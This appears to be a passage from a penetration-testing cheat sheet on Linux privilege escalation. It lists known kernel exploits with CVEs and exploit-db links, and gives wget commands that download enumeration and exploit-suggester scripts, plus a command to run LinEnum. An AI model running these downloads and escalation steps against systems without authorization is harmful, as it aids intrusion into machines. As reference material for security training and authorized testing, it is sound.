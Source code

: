 Then do a search for it on this page

```
https://raw.githubusercontent.com/lucyoa/kernel-exploits/master/README.md
```

* Linux Kernel 2.6.39 - 3.2.2 (Gentoo / Ubuntu x86/x64) - 'Mempodipper' Local Privilege Escalation:
  * [https://www.exploit-db.com/exploits/18411/](https://www.exploit-db.com/exploits/18411/)
  * [https://www.securityfocus.com/bid/51625/info](https://www.securityfocus.com/bid/51625/info)
  * CVE-2012-0056
* Linux Kernel 2.6.22 - 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (SUID Method):
  * [https://www.exploit-db.com/exploits/40616/](https://www.exploit-db.com/exploits/40616/)
  * CVE-2016-5195
* Linux Kernel 2.2.x/2.4.x (RedHat) - 'ptrace/kmod' Local Privilege Escalation
  * [https://www.exploit-db.com/exploits/3/](https://www.exploit-db.com/exploits/3/)
  * [http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c](http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c)
  * CVE-2003-0127
* Linux Kernel 2.6 (Debian 4.0 / Ubuntu / Gentoo) UDEV below 1.4.1 - Local Privilege Escalation (1)
  * [https://www.exploit-db.com/exploits/8478/](https://www.exploit-db.com/exploits/8478/)
  * `exploit/linux/local/udev_netlink`

### Unix Priv checker

```
wget https://raw.githubusercontent.com/pentestmonkey/unix-privesc-check/master/upc.sh
```

Other scripts:

```
wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py
```

### LinEnum

{% hint style="warning" %}
Remember to run them again if you get a user shell not just www-data shell
{% endhint %}

```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

```
./LinEnum.sh -t -r report.txt
```

### LinuxPrivchecker.py

```
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
```

```
wget https://raw.githubusercontent.com/PenturaLabs/Linux_Exploit_Suggester/master/Linux_Exploit_Suggester.pl
```
